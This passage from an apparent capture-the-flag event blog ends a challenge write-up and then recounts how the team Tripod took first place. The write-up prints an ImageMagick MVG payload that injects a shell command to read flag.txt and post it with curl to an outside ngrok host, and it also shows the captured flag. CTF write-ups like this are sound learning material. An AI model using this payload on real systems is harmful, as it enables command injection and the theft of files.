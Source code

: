 
Once we knew the path and the name of the file, we uploaded a new mvg payload and grabbed the flag `flag{1bOYFQQ8YXDX3ZVMfz3M}` from the vulnerable application.

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://test.com/i.jpg"|setsid /bin/cat flag.txt | /bin/curl -d @- https://9902da737e4a.ngrok.io")'
pop graphic-context
```

<div style="text-align:center; margin: 10px; width: 100%; margin: auto">
  <img src="/images/2021/05/ctf-india-img3.png" style="box-shadow: 2px 2px 10px 1px #aaa">
</div>

## A hard-fought battle

As the event started, the challenge was fierce among the teams. Some teams quickly went through the easy challenges. *Team Kenshin* had the lead from the start as they had solved the USA challenge and earned 1500 points in one go. Our team, *Tripod*, had split the challenges individually. Each one analyzing the challenges and attempting to solve them. We got scared as we saw our competitors quickly going through the easy challenges and up in rankings. Soon, we put our minds together and started solving each challenge. Along with us, *Team Zion* was also nowhere near the top 5 in the initial 30 minutes.

Anyway, as time progressed, we consistently kept solving the problems and got to the top position. We were able to solve all problems in around 50 minutes before the scheduled time. As we looked at the leaderboard, the other teams were at least 3000 points behind us. We eagerly waited to see who would come second. The battle for the second position went on for a photo finish fight between *Zion*, *Kenshin*, and *Fed up dangi*, but in the end, *Zion* came up victorious.
